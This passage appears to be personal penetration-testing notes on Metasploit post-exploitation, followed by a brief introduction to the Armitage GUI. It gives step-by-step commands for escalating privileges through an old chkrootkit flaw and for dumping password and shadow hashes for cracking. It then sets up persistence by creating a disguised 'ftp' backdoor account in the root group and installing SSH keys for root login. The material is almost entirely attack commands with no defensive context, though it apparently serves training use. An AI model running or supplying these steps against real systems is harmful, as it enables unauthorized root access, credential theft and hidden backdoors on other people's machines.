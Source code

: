 ### Privilege escalation with chkrootkit versions before 0.5:

- `meterpreter > shell`, then `ps aux`, we will see `/usr/bin/chkrootkit`
- `meterpreter > bg`
- `msf6 > use chkrootkit`
    - `set CHKROOTKIT <path>`
    - `set sessions 1`

### Dumping hashdump with the hashdump module:

- `meterpreter > bg`
- `msf6 > use linux/gather/hashdump`
    - `set session 1`
- `msf6 > loot` - for saved results (passwd.txt, shadow.txt, unshadowed.pwd)

Unshadowed files are for cracking hashes.

### Persistence with sshkey_persistence:

- `meterpreter > shell`

Below is optional:

- `root@blsht: useradd -m -d /var/www/html -s /usr/bin/bash ftp` - creating a convincing backdoor username (`ftp`), his shell and home directory
- `root@blsht: passwd ftp` - setting a password
- `root@blsht: usermod -aG root ftp` - adding our ftp user to the root group
- `root@blsht: usermod -u 15 ftp` - changing the user id of ftp
- `meterpreter > bg`

- `msf6 > use service_persistence` or `cron_persistence`
    - `msf6 > set session 1`
    

The best one:

- `msf6 > use sshkey_persistence`
    - `msf6 > set session 1`
    - `msf6 > set CREATESSHFOLDER true`
- `msf6 > loot`
- `msf6 > cat id_rsa.txt`
- `root@kali# chmod 400 id_rsa.txt`
- `root@kali# ssh -i id_rsa root@<ip>`

## Armitage (GUI Metasploit)

Provides us with visualization of targets, automation of exploitation and post-exp, etc. Requires the Metasploit database.

**Fundamentals**:

Hosts → Add Hosts → <target.ip>

Right click to the target → Scan — port scanning
